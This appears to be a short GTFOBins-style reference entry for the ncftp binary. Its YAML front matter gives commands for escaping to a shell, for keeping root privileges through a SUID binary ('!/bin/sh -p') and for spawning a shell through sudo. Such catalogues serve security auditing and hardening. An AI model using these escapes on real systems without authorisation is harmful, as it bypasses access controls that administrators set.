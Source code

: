 ```yaml
---
functions:
  shell:
    - code: |
        ncftp
        !/bin/sh
  suid:
    - code: |
        ./ncftp
        !/bin/sh -p
  sudo:
    - code: |
        sudo ncftp
        !/bin/sh
---
```


